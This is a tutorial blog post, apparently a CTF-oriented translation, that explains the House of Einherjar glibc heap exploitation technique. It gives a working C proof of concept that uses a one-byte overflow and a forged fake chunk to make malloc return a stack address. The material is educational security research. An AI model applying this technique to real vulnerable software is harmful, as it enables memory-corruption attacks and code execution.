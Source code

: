 ```yaml
---
title: Heap Exploitation系列翻译-16 House of Einherjar
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Einherjar

This house is not part of "The Malloc Maleficarum". This heap exploitation technique was given by [Hiroki Matsukuma](https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606) in 2016. This attack also revolves around making 'malloc' return a nearly arbitrary pointer. Unlike other attacks, this requires just a single byte of overflow. There exists much more software vulnerable to a single byte of overflow mainly due to the famous ["off by one"](https://en.wikipedia.org/wiki/Off-by-one_error) error. It overwrites into the 'size' of the next chunk in memory and clears the `PREV_IN_USE` flag to 0. Also, it overwrites into `prev_size` (already in the previous chunk's data region) a fake size. When the next chunk is freed, it finds the previous chunk to be free and tries to consolidate by going back 'fake size' in memory. This fake size is so calculated so that the consolidated chunk ends up at a fake chunk, which will be returned by subsequent malloc.

Consider this sample code (download the complete version [here](../assets/files/house_of_einherjar.c)):

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[32];               // padding
};

struct chunk_structure *chunk1, fake_chunk;     // fake chunk is at 0x7ffee6b64e90
size_t allotedSize;
unsigned long long *ptr1, *ptr2;
char *ptr;
void *victim;

// Allocate any chunk
// The attacker will overflow 1 byte through this chunk into the next one
ptr1 = malloc(40);                              // at 0x1dbb010

// Allocate another chunk
ptr2 = malloc(0xf8);                            // at 0x1dbb040

chunk1 = (struct chunk_structure *)(ptr1 - 2);
allotedSize = chunk1->size & ~(0x1 | 0x2 | 0x4);
allotedSize -= sizeof(size_t);      // Heap meta data for 'prev_size' of chunk1

// Attacker initiates a heap overflow
// Off by one overflow of ptr1, overflows into ptr2's 'size'
ptr = (char *)ptr1;
ptr[allotedSize] = 0;      // Zeroes out the PREV_IN_USE bit

// Fake chunk
fake_chunk.size = 0x100;   // enough size to service the malloc request
// These two will ensure that unlink security checks pass
// i.e. P->fd->bk == P and P->bk->fd == P
fake_chunk.fd = &fake_chunk;
fake_chunk.bk = &fake_chunk;

// Overwrite ptr2's prev_size so that ptr2's chunk - prev_size points to our fake chunk
// This falls within the bounds of ptr1's chunk - no need to overflow
*(size_t *)&ptr[allotedSize-sizeof(size_t)] =
                                (size_t)&ptr[allotedSize - sizeof(size_t)]  // ptr2's chunk
                                - (size_t)&fake_chunk;

// Free the second chunk. It will detect the previous chunk in memory as free and try
// to merge with it. Now, top chunk will point to fake_chunk
free(ptr2);

victim = malloc(40);                  // Returns address 0x7ffee6b64ea0 !!
```

Note the following:

1. The second chunk's size was given as `0xf8`. This simply ensured that the actual chunk's size has the least significant byte as `0` (ignoring the flag bits). Hence, it was a simple matter to set the previous in use bit to `0` without changing the size of this chunk.
2. The `allotedSize` was further decreased by `sizeof(size_t)`. `allotedSize` is equal to the size of the complete chunk. However, the size allowed for data is `sizeof(size_t)` less, or the equivalent of the `size` parameter in the heap. This is because `size` and `prev_size` of the current chunk cannot be used, but the `prev_size` of the next chunk can be used.
3. Fake chunk's forward and backward pointers were adjusted to pass the security check in `unlink`.
